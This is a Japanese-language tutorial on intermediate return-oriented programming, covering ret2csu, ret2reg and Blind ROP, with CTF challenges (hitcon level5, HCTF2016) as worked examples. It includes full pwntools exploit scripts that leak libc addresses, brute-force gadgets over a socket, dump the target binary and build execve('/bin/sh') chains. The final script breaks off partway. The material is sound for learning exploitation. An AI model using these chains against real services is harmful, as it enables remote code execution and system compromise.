




# 中級 ROP

中級 ROP では、主に比較的巧妙な gadget を使います。

## ret2csu

### 原理

64 ビットプログラムでは、関数の最初の 6 個の引数はレジスタで渡されますが、各レジスタに対応する gadget を見つけるのは多くの場合困難です。そこで、x64 の __libc_csu_init 内の gadget を利用できます。この関数は libc の初期化処理を行うもので、一般のプログラムは libc の関数を呼び出すため、この関数は必ず存在します。まずこの関数を見てみましょう(もちろん、バージョンによってこの関数には多少の違いがあります)。

```asm
.text:00000000004005C0 ; void _libc_csu_init(void)
.text:00000000004005C0                 public __libc_csu_init
.text:00000000004005C0 __libc_csu_init proc near               ; DATA XREF: _start+16o
.text:00000000004005C0                 push    r15
.text:00000000004005C2                 push    r14
.text:00000000004005C4                 mov     r15d, edi
.text:00000000004005C7                 push    r13
.text:00000000004005C9                 push    r12
.text:00000000004005CB                 lea     r12, __frame_dummy_init_array_entry
.text:00000000004005D2                 push    rbp
.text:00000000004005D3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:00000000004005DA                 push    rbx
.text:00000000004005DB                 mov     r14, rsi
.text:00000000004005DE                 mov     r13, rdx
.text:00000000004005E1                 sub     rbp, r12
.text:00000000004005E4                 sub     rsp, 8
.text:00000000004005E8                 sar     rbp, 3
.text:00000000004005EC                 call    _init_proc
.text:00000000004005F1                 test    rbp, rbp
.text:00000000004005F4                 jz      short loc_400616
.text:00000000004005F6                 xor     ebx, ebx
.text:00000000004005F8                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400600
.text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54j
.text:0000000000400600                 mov     rdx, r13
.text:0000000000400603                 mov     rsi, r14
.text:0000000000400606                 mov     edi, r15d
.text:0000000000400609                 call    qword ptr [r12+rbx*8]
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp
.text:0000000000400614                 jnz     short loc_400600
.text:0000000000400616
.text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34j
.text:0000000000400616                 add     rsp, 8
.text:000000000040061A                 pop     rbx
.text:000000000040061B                 pop     rbp
.text:000000000040061C                 pop     r12
.text:000000000040061E                 pop     r13
.text:0000000000400620                 pop     r14
.text:0000000000400622                 pop     r15
.text:0000000000400624                 retn
.text:0000000000400624 __libc_csu_init endp
```

ここでは次の点を利用できます。

- 0x000000000040061A から末尾までは、スタックオーバーフローでスタック上のデータを組み立てることで、rbx, rbp, r12, r13, r14, r15 レジスタの値を制御できます。
- 0x0000000000400600 から 0x0000000000400609 までは、r13 を rdx に、r14 を rsi に、r15d を edi に代入できます(ここで代入されるのは edi ですが、**実はこのとき rdi の上位 32 ビットの値は 0 になっています(各自デバッグしてください)**。したがって実際には rdi レジスタの値を制御でき、制御できるのは下位 32 ビットだけ、ということです)。この3つのレジスタは、x64 の関数呼び出しで渡される最初の3つのレジスタでもあります。さらに、r12 と rbx を適切に制御できれば、呼び出したい関数を呼び出せます。たとえば rbx を 0 に、r12 を呼び出したい関数のアドレスが格納された場所にできます。
- 0x000000000040060D から 0x0000000000400614 までは、rbx と rbp の関係を rbx+1 = rbp になるように制御できます。そうすれば loc_400600 を実行せず、その下のアセンブリを引き続き実行できます。ここでは単純に rbx=0、rbp=1 と設定できます。

### 例

ここでは hitcon の [level5](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/stackoverflow/ret2__libc_csu_init/hitcon-level5) を例に紹介します。まずプログラムのセキュリティ保護を確認します。

```shell
➜  ret2__libc_csu_init git:(iromise) ✗ checksec level5    
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabledd
    PIE:      No PIE (0x400000)
```

プログラムは 64 ビットで、スタックの実行不可保護が有効になっています。

次に、プログラムの脆弱性を探すと、プログラムに単純なスタックオーバーフローがあることが分かります。

```c
ssize_t vulnerable_function()
{
  char buf; // [sp+0h] [bp-80h]@1

  return read(0, &buf, 0x200uLL);
}
```

プログラムをざっと見ると、system 関数のアドレスも /bin/sh 文字列もないため、どちらも自分で用意する必要があります。

**注: ここで私は、手元の環境で system 関数を使って shell を得ようとして失敗しました。環境変数の問題だと思われるので、ここでは execve を使って shell を得ています。**

基本的な利用の方針は次のとおりです。

- スタックオーバーフローで libc_csu_gadgets を実行して write 関数のアドレスを得て、プログラムに main 関数を再実行させる
- libcsearcher で対応する libc のバージョンと execve 関数のアドレスを得る
- 再びスタックオーバーフローで libc_csu_gadgets を実行し、bss セグメントに execve のアドレスと '/bin/sh’ のアドレスを書き込み、プログラムに main 関数を再実行させる
- 再びスタックオーバーフローで libc_csu_gadgets を実行し、execve('/bin/sh') を実行して shell を得る。

exp は次のとおりです。

```python
from pwn import *

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  
level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = b'b' * 8

def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = b'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += b'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    time.sleep(1)

sh.recvuntil(b'Hello, World\n')
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
log.info(f"Leaked write address: {hex(write_addr)}")

libc_base = write_addr - libc.symbols['write']
log.success(f"Libc base address: {hex(libc_base)}")

execve_addr = libc_base + libc.symbols['execve']
log.success(f"Execve address: {hex(execve_addr)}")

sh.recvuntil(b'Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + b'/bin/sh\x00')

sh.recvuntil(b'Hello, World\n')
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```

### 考察

#### 改良

上では、この汎用 gadget をそのまま利用し、入力するバイト長は 128 でした。しかし、すべてのプログラムの脆弱性でこれだけ長いバイト列を入力できるわけではありません。入力できるバイト数が少ない場合、どうすればよいのでしょうか。いくつかの方法を以下に示します。

##### 改良1 - rbx と rbp を事前に制御する

これまでの利用では、これら2つのレジスタの値は主に cmp の条件を満たしてジャンプするために使っていました。この2つの値を事前に制御できれば、16 バイト減らせます。つまり必要なバイト数は 112 で済みます。

##### 改良2 - 複数回の利用

実のところ、改良1も複数回の利用の一種です。gadget は2つの部分に分かれているので、2回に分けて呼び出して目的を達成し、1回の gadget に必要なバイト数を減らせます。ただし、ここでの複数回の利用には、より厳しい条件が必要です。

- 脆弱性を複数回トリガーできること
- 2回のトリガーの間に、プログラムが r12-r15 レジスタを変更していないこと。2回に分けて呼び出すためです。

**もちろん、一度に大量のバイトを読み込めるものの、脆弱性の再利用は許されない、という場合もあります。この場合は、すべてのバイトを一度にすべて配置しておき、その後でゆっくり利用する必要があります。**

#### gadget

実は、上記の gadget のほかにも、gcc はデフォルトで他の関数もいくつかコンパイルして組み込みます。

```text
_init
_start
call_gmon_start
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
frame_dummy
__libc_csu_init
__libc_csu_fini
_fini
```

これらの一部のコードを利用して実行することも試せます。また、PC は単にプログラムの実行アドレスにあるデータを CPU に渡すだけで、CPU は渡されたデータをデコードするだけなので、デコードに成功すれば実行されます。したがって、元のプログラム内のアドレスをずらして欲しい命令を得ることができます。プログラムがクラッシュしないようにできさえすればよいのです。

なお、上の libc_csu_init では主に次のレジスタを利用しました。

- 末尾のコードで rbx, rbp, r12, r13, r14, r15 を制御した。
- 中間部分のコードで rdx, rsi, edi を制御した。

しかし実は、libc_csu_init の末尾はオフセットをずらすことで他のレジスタも制御できます。0x000000000040061A が通常の開始アドレスで、**0x000000000040061f では rbp レジスタを、0x0000000000400621 では rsi レジスタを制御できることが分かります。** この部分をさらに深く理解するには、アセンブリ命令の各フィールドをより詳しく理解する必要があります。次のとおりです。

```asm
gef➤  x/5i 0x000000000040061A
   0x40061a <__libc_csu_init+90>:	pop    rbx
   0x40061b <__libc_csu_init+91>:	pop    rbp
   0x40061c <__libc_csu_init+92>:	pop    r12
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
gef➤  x/5i 0x000000000040061b
   0x40061b <__libc_csu_init+91>:	pop    rbp
   0x40061c <__libc_csu_init+92>:	pop    r12
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
gef➤  x/5i 0x000000000040061A+3
   0x40061d <__libc_csu_init+93>:	pop    rsp
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
gef➤  x/5i 0x000000000040061e
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
gef➤  x/5i 0x000000000040061f
   0x40061f <__libc_csu_init+95>:	pop    rbp
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
gef➤  x/5i 0x0000000000400620
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
   0x400626:	nop    WORD PTR cs:[rax+rax*1+0x0]
gef➤  x/5i 0x0000000000400621
   0x400621 <__libc_csu_init+97>:	pop    rsi
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
gef➤  x/5i 0x000000000040061A+9
   0x400623 <__libc_csu_init+99>:	pop    rdi
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
   0x400626:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x400630 <__libc_csu_fini>:	repz ret
```

### 問題

- 2016 XDCTF pwn100
- 2016 華山杯 SU_PWN

### 参考文献

- http://drops.xmd5.com/static/drops/papers-7551.html
- http://drops.xmd5.com/static/drops/binary-10638.html

## ret2reg

### 原理

1. オーバーフローした関数が戻るとき、どのレジスタの値がオーバーフローしたバッファ領域を指しているかを調べる
2. 次にバイナリを逆コンパイルし、call reg または jmp reg 命令を探して、EIP をその命令のアドレスに設定する
3. reg が指す領域に Shellcode を注入する(その領域が実行可能であることを確認する必要があるが、通常はスタック上である)

## JOP

Jump-oriented programming

## COP

Call-oriented programming

## BROP

### 基本紹介

BROP(Blind ROP)は 2014 年に Stanford の Andrea Bittau によって提案されました。その研究成果は Oakland 2014 で発表され、論文のタイトルは **Hacking Blind** です。以下は、著者による対応する paper と slides、および著者による紹介です。

- [paper](http://www.scs.stanford.edu/brop/bittau-brop.pdf)
- [slide](http://www.scs.stanford.edu/brop/bittau-brop-slides.pdf)

BROP は、対象アプリケーションのソースコードもバイナリもない状態でプログラムを攻撃し、プログラムの実行フローを乗っ取るものです。

### 攻撃の条件

1. 元のプログラムにスタックオーバーフロー脆弱性が存在し、攻撃者がプログラムのフローを制御できること。
2. サーバー側のプロセスがクラッシュ後に再起動され、再起動されたプロセスのアドレスが以前のアドレスと同じであること(つまり、プログラムに ASLR 保護があっても、それはプログラムが最初に起動したときにしか効果がない)。現在の nginx、MySQL、Apache、OpenSSH などのサーバーアプリケーションはこの特性に合致しています。

### 攻撃の原理

現在、ほとんどのアプリケーションでは ASLR、NX、Canary 保護が有効になっています。ここでは、BROP でこれらの保護をどう回避するか、そしてどう攻撃するかをそれぞれ説明します。

#### 基本的な方針

BROP では、基本的に次の方針に従います。

-   スタックオーバーフローの長さを判定する
    -   ブルートフォースで列挙する
-   Stack Reading
    -   スタック上のデータを取得して、canary、ebp、戻りアドレスをリークする。
-   Blind ROP
    -   出力関数の引数を制御して呼び出せるだけの十分な数の gadget を見つける。たとえば一般的な write 関数や puts 関数です。
-   Build the exploit
    -   出力関数を使ってプログラムを dump し、さらに多くの gadget を見つけて、最終的な exploit を書く。

#### スタックオーバーフローの長さ

1 から順にブルートフォースで列挙し、プログラムがクラッシュするまで続けるだけです。

#### Stack Reading

次に示すのは、現在の典型的なスタックレイアウトです。

```
buffer|canary|saved fame pointer|saved returned address
```

canary とそれ以降の変数を得るには、まず最初の問題、つまり overflow の長さをどう得るかを解決する必要があります。これは試行を繰り返すことで得られます。

次に、canary とそれ以降の変数については、採る方法は同じです。ここでは canary を例にします。

canary 自体はブルートフォースで得られますが、すべての値を愚直に列挙するだけでは、明らかに効率が悪いです。

なお、攻撃条件2は、プログラム自体がクラッシュによって変化しないことを示しているため、毎回 canary などの値は同じです。そのため、バイト単位でブルートフォースできます。論文に示されているとおり、各バイトの可能性は最大 256 通りなので、32 ビットでは最大 1024 回、64 ビットでは最大 2048 回のブルートフォースで済みます。



#### Blind ROP

##### 基本的な方針

write 関数を実行する最も素朴な方法は、システムコールを組み立てることです。

```asm
pop rdi; ret # socket
pop rsi; ret # buffer
pop rdx; ret # length
pop rax; ret # write syscall number
syscall
```

しかし通常、このような方法は比較的難しいです。syscall のアドレスを見つけるのはほぼ不可能だからです……。そこで write を探す方法に置き換えて得ます。

###### BROP gadgets

まず、libc_csu_init の末尾にある長い gadget 列では、オフセットをずらすことで write 関数呼び出しの最初の2つの引数を得られます。論文に示されているとおりです。



###### find a call write

plt テーブルから write のアドレスを得られます。

###### control rdx

rdx は、出力するバイト長に使う変数にすぎず、0 でなければよいことに注意してください。一般にプログラム中の rdx は 0 でないことが多いです。ただし、プログラムの出力をよりうまく制御するために、この値をできるだけ制御できるようにしておきたいところです。しかし、プログラムには

```asm
pop rdx; ret
```

のような命令はほとんどありません。では、rdx の値をどう制御するのでしょうか。ここで説明しておくと、strcmp を実行するとき、rdx は比較される文字列の長さに設定されます。そのため strcmp 関数を見つければ、rdx を制御できます。

そこで次の問題は、2つに分けられます。

-   gadget を探す
-   PLT テーブルを探す
    -   write のエントリ
    -   strcmp のエントリ

##### gadget を探す

まず、gadget を探す方法を考えます。この時点では、プログラムが具体的にどうなっているか分からないので、プログラムの戻りアドレスを自分で設定した値に制御するという単純な方法で、対応する gadget を推測するしかありません。プログラムの戻りアドレスを制御したとき、一般に次のような状況があります。

- プログラムが直接クラッシュする
- プログラムがしばらく実行された後にクラッシュする
- プログラムがクラッシュせずに実行され続ける

妥当な gadget を探すために、次の2つのステップに分けられます。

###### stop gadgets を探す

いわゆる `stop gadget` とは一般に、次のようなコードを指します。プログラムがこのコードを実行すると無限ループに入り、攻撃者が接続状態を保ち続けられるようにするものです。

> 実は stop gadget は必ずしも上のような形である必要はなく、その本質的な目的は、テストしている戻りアドレスが gadget であることを攻撃者に知らせることです。

stop gadget を探す理由は、ある gadget を当てたとき、それをスタックに置いただけでは、その gadget を実行し終えた後にプログラムがスタック上の次のアドレスにジャンプするためです。そのアドレスが不正なアドレスであれば、プログラムはクラッシュします。そうすると攻撃者から見ると、プログラムは単にクラッシュしただけに見えます。そのため攻撃者は、この過程で `useful gadget` が何も実行されていないと判断して、それを諦めてしまいます。例を次の図に示します。



しかし、`stop gadget` を配置しておけば、試す各アドレスが gadget であれば、プログラムはクラッシュしません。次は、これらの gadget を識別する方法を考えます。

###### gadget の識別

では、これらの gadget をどう識別すればよいのでしょうか。スタックのレイアウトとプログラムの挙動で識別できます。説明しやすくするため、ここではスタック上の3種類のアドレスを定義します。

-   **Probe**
    -   探針(probe)、つまり探りたいコードのアドレスです。一般に 64 ビットプログラムなら 0x400000 から直接試し、うまくいかなければ PIE 保護が有効な可能性があり、それでもだめならプログラムが 32 ビットかもしれません……。リモートのビット数をどうすれば素早く判定できるかは、私はまだよく分かっていません。
-   **Stop**
    -   プログラムをクラッシュさせない stop gadget のアドレス。
-   **Trap**
    -   プログラムをクラッシュさせうるアドレス

スタック上に **Stop** と **Trap** をさまざまな順序で置くことで、実行されている命令を識別できます。Stop を実行すればプログラムはクラッシュせず、Trap を実行すればプログラムはすぐにクラッシュするからです。いくつか例を示します。

-   probe,stop,traps(traps,traps,...)
    -   プログラムがクラッシュするかどうか(**プログラムが probe の時点で直接クラッシュした場合はどう判断するのか**)によって、スタックに対して pop 操作をしない gadget を見つけられます。たとえば
        -   ret
        -   xor eax,eax; ret
-   probe,trap,stop,traps
    -   このレイアウトで、スタック変数を1つだけ pop する gadget を見つけられます。たとえば
        -   pop rax; ret
        -   pop rdi; ret
-   probe, trap, trap, trap, trap, trap, trap, stop, traps
    -   このレイアウトで、スタック変数を 6 個 pop する gadget、つまり brop gadget に似た gadget を見つけられます。**ここは原文に問題がある気がします。たとえばスタック変数を1つだけ pop するアドレスに当たった場合も、実はクラッシュしないからです……** ここで一般に、興味深い点が2つ見つかります
        -   plt ではクラッシュしない……
        -   _start ではクラッシュしない。プログラムが再実行されたのと同じになります。

各レイアウトの後ろに trap を置くのは、probe のアドレスで実行された命令が stop を飛び越えた場合に、プログラムがすぐにクラッシュする挙動を識別できるようにするためです。

しかし、それでも、実行されている gadget がどのレジスタを操作しているのかを識別するのは難しいです。

ただし、BROP のように一度に 6 個のレジスタを pop する gadget は、プログラム中にあまり現れないことに注意してください。そのため、そのような gadget を見つけたら、それが brop gadget である可能性が非常に高いです。また、この gadget はオフセットをずらすと pop rsp などの gadget も作れ、プログラムをクラッシュさせるので、この gadget を識別する目印にもなります。

さらに、先に学んだ ret2libc_csu_init から分かるように、このアドレスから 0x1a を引くと、その1つ前の gadget が得られます。これを使って他の関数を呼び出せます。

なお、probe が stop gadget である可能性があるので、確認する必要があります。どう確認するかというと、後ろの内容をすべて trap のアドレスにするだけです。stop gadget であればプログラムは正常に実行され、そうでなければクラッシュするからです。なかなか面白そうです。

##### PLT を探す

下図のように、プログラムの plt テーブルは比較的整った構造をしており、各 plt エントリは 16 バイトです。また、各エントリの 6 バイトのオフセットのところは、そのエントリに対応する関数の解決パスです。つまり、プログラムが最初にその関数を実行するとき、このパスを実行して関数の got アドレスを解決します。



また、ほとんどの plt 呼び出しは、奇妙な引数を使ってもクラッシュしにくいです。そのため、プログラムをクラッシュさせない長さ 16 のコード片が連続して見つかった場合、plt テーブルに遭遇したと考える根拠があります。さらに、前後 6 バイトのオフセットを使って、plt エントリの途中にいるのか先頭にいるのかを判断できます。

##### rdx を制御する

plt テーブルを見つけたら、次は rdx の値を制御する方法を考えます。では strcmp の位置をどう確認するのでしょうか。先に言っておくと、すべてのプログラムが strcmp 関数を呼び出すわけではないので、strcmp 関数が呼び出されていない場合は、他の方法で rdx の値を制御する必要があります。ここではプログラムが strcmp 関数を使っている場合を示します。

これまでに brop の gadget を見つけているので、関数の最初の2つの引数を制御できます。あわせて、次の2種類のアドレスを定義します。

- readable、読み取り可能なアドレス。
- bad、不正なアドレス。アクセスできないもの。たとえば 0x0。

渡す引数をこの2種類のアドレスの組み合わせにすると、次の4つの場合があります。

- strcmp(bad,bad)
- strcmp(bad,readable)
- strcmp(readable,bad)
- strcmp(readable,readable)

最後の形式のときだけ、プログラムは正常に実行されます。

**注**: PIE 保護がない場合、64 ビットプログラムの ELF ファイルの 0x400000 には 7 個の非ゼロバイトがあります。

では具体的にどうするのでしょうか。比較的直接的な方法は、plt エントリを頭から順に1つずつスキャンすることですが、これは面倒です。次のような方法を選べます。

- plt エントリの slow path(低速パス)を利用する
- さらに、次のエントリの slow path のアドレスで戻りアドレスを上書きする

こうすれば、対応する変数を何度も制御し直す必要がありません。

もちろん、strcmp と同じ効果を持つ strncmp や strcasecmp 関数をたまたま見つけることもあります。

##### 出力関数を探す

出力関数は write でも puts でも探せます。一般には先に puts 関数を探します。ただし、ここでは説明の都合上、まず write の探し方を紹介します。

###### write@plt を探す

write 関数の3つの引数を制御できるようになったら、すべての plt テーブルを再度走査し、write 関数が出力する内容から対応する関数を見つけられます。ここで少し面倒なのは、ファイルディスクリプタの値を見つける必要がある点です。一般に、この値を見つける方法は2つあります。

- rop chain を使い、各 rop に対応するファイルディスクリプタが異なるようにする
- 複数の接続を同時に開き、比較的大きな値を試してみる。

次の点に注意してください。

- linux では既定で、1つのプロセスが開けるファイルディスクリプタは最大 1024 個です。
- posix 標準では、確保されるファイルディスクリプタの値は常にその時点で使える最小の値です。

もちろん、puts 関数を探すことも選べます。

###### puts@plt を探す

puts 関数(ここで探すのは plt)を探すには、当然 rdi 引数を制御する必要があります。上で brop gadget はすでに見つけました。そこで、brop gadget のオフセット 9 から対応する gadget が得られます(ret2libc_csu_init の後半から分かります)。また、プログラムで PIE 保護が有効でない場合、0x400000 は ELF ファイルのヘッダで、その内容は \x7fELF です。これを使って判断できます。一般に、payload は次のとおりです。

```
payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

#### 攻撃のまとめ

この時点で、攻撃者は出力関数を制御できているので、.text セグメントのより多くの内容を出力して、より適切な gadget を見つけられます。同時に、dup2 や execve 関数などの他の関数も見つけられます。一般に、攻撃者はこの時点で次のことをします。

- socket の出力を入出力にリダイレクトする
- 「/bin/sh」のアドレスを探す。一般には、書き込み可能なメモリ領域を見つけ、write 関数でこの文字列を対応するアドレスに書き込むのがよいです。
- execve を実行して shell を得る。execve が plt テーブルにあるとは限らず、その場合、攻撃者はシステムコールを実行する方法を考える必要があります。

### 例

ここでは [HCTF2016 の出題人失踪了](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/stackoverflow/brop/hctf2016-brop) を例にします。基本的な方針は次のとおりです。

#### スタックオーバーフローの長さを確定する

```python
def getbufferflow_length():
    i = 1
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('WelCome my friend,Do you know password?\n')
            sh.send(i * 'a')
            output = sh.recv()
            sh.close()
            if not output.startswith('No password'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
```

上記から、スタックオーバーフローの長さが 72 であると確定できます。また、エコーされる情報から、プログラムは canary 保護が有効になっていないことが分かります。有効なら対応するエラー内容が出るはずだからです。したがって stack reading を実行する必要はありません。

#### stop gadgets を探す

探す過程は次のとおりです。

```python
def get_stop_addr(length):
    addr = 0x400000
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr)
            sh.sendline(payload)
            sh.recv()
            sh.close()
            print 'one success addr: 0x%x' % (addr)
            return addr
        except Exception:
            addr += 1
            sh.close()
```

ここでは、64 ビットプログラムで PIE が有効でない場合を直接試します。一般にそうなっているからです……。もし有効なら……有効な場合のやり方に従えばよいのです……。その結果、かなり多く見つかりました……。私は、元のプログラム内に戻っているように見えるアドレスを1つ選びました

```text
one success stop gadget addr: 0x4006b6
```

#### brop gadgets を識別する

以下では、上で紹介した原理に従って、対応する brop gadgets のアドレスを得ます。構成は次のとおりで、get_brop_gadget は可能性のある brop gadget を得るため、後ろの check_brop_gadget はそれを確認するためのものです。

```python
def get_brop_gadget(length, stop_gadget, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        print content
        # stop gadget returns memory
        if not content.startswith('WelCome'):
            return False
        return True
    except Exception:
        sh.close()
        return False


def check_brop_gadget(length, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


##length = getbufferflow_length()
length = 72
##get_stop_addr(length)
stop_gadget = 0x4006b6
addr = 0x400740
while 1:
    print hex(addr)
    if get_brop_gadget(length, stop_gadget, addr):
        print 'possible brop gadget: 0x%x' % addr
        if check_brop_gadget(length, addr):
            print 'success brop gadget: 0x%x' % addr
            break
    addr += 1
```

これで、brop の gadget のアドレス 0x4007ba が基本的に得られました。

#### puts@plt のアドレスを確定する

上で述べたとおり、次のような payload を組み立てて取得できます。

```text
payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

具体的な関数は次のとおりです。

```python
def get_puts_addr(length, rdi_ret, stop_gadget):
    addr = 0x400000
    while 1:
        print hex(addr)
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(
            addr) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content = sh.recv()
            if content.startswith('\x7fELF'):
                print 'find puts@plt addr: 0x%x' % addr
                return addr
            sh.close()
            addr += 1
        except Exception:
            sh.close()
            addr += 1
```

最後に plt の構造に基づいて、0x400560 を puts@plt として選びます。

#### puts@got のアドレスをリークする

puts 関数を呼び出せるようになったら、puts 関数のアドレスをリークして libc のバージョンを特定し、関連する system 関数のアドレスと /bin/sh のアドレスを得て、shell を得られます。0x400000 から 0x1000 バイトをリークします。これでプログラムの plt 部分を含めるのに十分です。コードは次のとおりです。

```python
def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 9999)
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        sh.close()
        return None


##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

最後に、リークした内容をファイルに書き出します。リークされたものが「」であれば、'\x00' に遭遇したということに注意してください。puts は文字列を出力するもので、文字列は '\x00' で終端されるからです。その後、ida で binary モードで開き、まず edit->segments->rebase program でプログラムのベースアドレスを 0x400000 に変更し、オフセット 0x560 のところを見つけます。次のとおりです。

```asm
seg000:0000000000400560                 db 0FFh
seg000:0000000000400561                 db  25h ; %
seg000:0000000000400562                 db 0B2h ;
seg000:0000000000400563                 db  0Ah
seg000:0000000000400564                 db  20h
seg000:0000000000400565                 db    0
```

次に c を押して、ここのデータをアセンブリ命令に変換します。次のとおりです。

```asm
seg000:0000000000400560 ; ---------------------------------------------------------------------------
seg000:0000000000400560                 jmp     qword ptr cs:601018h
seg000:0000000000400566 ; ---------------------------------------------------------------------------
seg000:0000000000400566                 push    0
seg000:000000000040056B                 jmp     loc_400550
seg000:000000000040056B ; ---------------------------------------------------------------------------
```

これは、puts@got のアドレスが 0x601018 であることを示しています。

#### プログラムの利用

```python
##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

